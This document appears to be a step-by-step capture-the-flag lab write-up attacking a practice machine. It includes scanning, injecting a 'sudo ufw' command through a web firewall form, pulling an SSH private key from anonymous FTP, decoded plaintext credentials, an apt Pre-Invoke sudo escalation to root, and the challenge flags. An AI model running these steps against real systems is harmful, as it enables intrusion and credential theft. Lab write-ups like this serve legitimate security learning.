 Objective

The goal of this CTF-style lab was to access the target machine 10.10.54.237, enumerate services, exploit an exposed FTP server, pivot via stolen credentials, and escalate to root using a known sudo privilege escalation trick. Everything was done manually and step-by-step.

Stage 1: Initial Nmap Scan (Reconnaissance)

I started with a full TCP port scan:

nmap -p- -T4 10.10.54.237

Results:

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

This showed three open ports. FTP (21) was not accessible yet.

Stage 2: Domain Discovery

Through DNS enumeration and hints in /etc/hosts, I identified several subdomains:

dodge.thm
www.dodge.thm
blog.dodge.thm
dev.dodge.thm
touch-me-not.dodge.thm
netops-dev.dodge.thm
ball.dodge.thm

I added them to /etc/hosts:

echo "10.10.54.237 dodge.thm www.dodge.thm blog.dodge.thm dev.dodge.thm touch-me-not.dodge.thm netops-dev.dodge.thm ball.dodge.thm" >> /etc/hosts

Stage 3: Accessing Web Server (HTTPS)

Using curl, I checked the endpoint:

curl -kIL https://netops-dev.dodge.thm

JS Files Found:

cf.js

firewall.js

I downloaded and inspected them:

curl -k https://netops-dev.dodge.thm/cf.js -o cf.js
curl -k https://netops-dev.dodge.thm/firewall.js -o firewall.js

The JavaScript made requests to a page called firewall10110.php, suggesting a web-based firewall configuration interface.

Stage 4: Firewall Bypass

Using the form handler firewall10110.php, I attempted to modify UFW rules:

curl -k -X POST https://netops-dev.dodge.thm/firewall10110.php \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -d 'command=sudo ufw allow 21'

Response indicated the rule was updated. I confirmed FTP (port 21) was now open:

nmap -p 21 10.10.54.237

Stage 5: FTP Enumeration

ftp 10.10.54.237

Login as:

Name: anonymous
Password: [enter]

binary
ls -la
cd .ssh
ls -la
get id_rsa_backup
get authorized_keys

Downloaded id_rsa_backup, which was 2610 bytes (likely a private SSH key).

Stage 6: SSH Access as challenger

chmod 600 id_rsa_backup
ssh -i id_rsa_backup challenger@10.10.54.237

Login successful 

Stage 7: Capturing User Flag

cat ~/user.txt

Flag:

THM{0649b2285e507b38b10620e57f9c861}

Stage 8: Analyzing Web Code

cat /var/www/notes/api/posts.php

Found a base64-encoded string. Decoded:

echo '<base64>' | base64 -d

Discovered credentials:

cobra / mz4%o7BGum#TTu

Stage 9: Switching to cobra

su cobra
Password: mz4%o7BGum#TTu

Checked sudo privileges:

sudo -l

Output:

(ALL) NOPASSWD: /usr/bin/apt

Stage 10: Privilege Escalation to Root

Used GTFOBins technique:

sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh

Got root shell 

whoami
# root

Stage 11: Root Flag

cd /root
cat root.txt

Flag:

THM{7b88ac4f52cd8723a8d0c632c2d930ba}

Summary Table

Access Level

Method

challenger

Retrieved SSH key via FTP

cobra

Password from decoded base64 in PHP file

root

sudo apt with APT::Update::Pre-Invoke shell

Conclusion 

This project was fully executed from my attacking machine (10.10.75.59) and allowed me to:

Bypass a firewall by injecting ufw rules

Recover sensitive private keys from anonymous FTP

Decode base64 secrets in web source

Privilege escalate to root using a documented sudo trick (GTFOBins)

It improved my hands-on understanding of firewall misconfigurations, Linux permissions, SSH authentication, and web-based enumeration. All steps were documented for learning and reproducibility.

